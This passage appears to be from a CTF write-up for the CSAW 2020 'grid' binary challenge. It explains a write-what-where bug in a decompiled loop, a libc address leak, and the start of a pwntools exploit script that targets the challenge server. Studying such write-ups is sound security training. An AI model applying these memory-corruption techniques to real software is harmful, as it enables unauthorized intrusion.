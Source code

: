 When `d` is submitted as the shape `display` is called and passed a pointer to a heap array of 3-tuples (shape, x, y).

This unbounded loop provides us a _write-what-where_ can we can easily use to write over the return address.

```
  while (local_80 != (char *)0x0) {
    acStack120[(long)(int)(uint)(byte)local_80[2] + (long)(int)(uint)(byte)local_80[1] * 10] = *local_80;
    local_80 = *(char **)(local_80 + 8);
  }
```

Character array `acStack120` is `120` bytes (Ghidra has some convenient naming conventions) from the return pointer, so `x`*10 + `y` >= 120 can be used to overwrite the return address.


### What to write?

The second loop in `display` _displays_ 100 bytes from the stack, the first 96 bytes can be decoded as:

```
[*] 0x60212b
[*] 0x6021c0
[*] 0x7ff0881be6e0
[*] 0x7ff087f345da
[*] 0x0
[*] 0x6021c0
[*] 0x7ff0881be6e0
[*] 0x7ff087f267cd
[*] 0x6021c0
[*] 0x7ff087f35ede
[*] 0x200000000
[*] 0x7ffebc0770c4
```

This will change with ASLR and between `d` invocations.  Best to get the leak first.  Testing each in GDB for the distance from libc has the 4th value consistently `0x4ec5da` from the base of libc (hat tip to [r4j0x00](https://github.com/r4j0x00/ctf-writeups/blob/master/csaw2020/grid/grid.py))


## Exploit

### Setup

```python
#!/usr/bin/env -S python3

from pwn import *

binary = context.binary = ELF('./grid')
context.log_level = 'INFO'

libpath = os.getcwd() + '/libc-database/libs/libc6_2.27-3ubuntu1.2_amd64/'
libc = ELF(libpath + 'libc-2.27.so')
libc.symbols['base_offset'] = 0x4ec5da

if not args.REMOTE:
    context.log_file = 'local.log'
    ld = ELF(libpath + 'ld-2.27.so')
    p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH':libpath, 'LD_PRELOAD':'./libstdc.so.6.0.25'})
else:
    context.log_file = 'remote.log'
    p = remote('pwn.chal.csaw.io', 5013)
```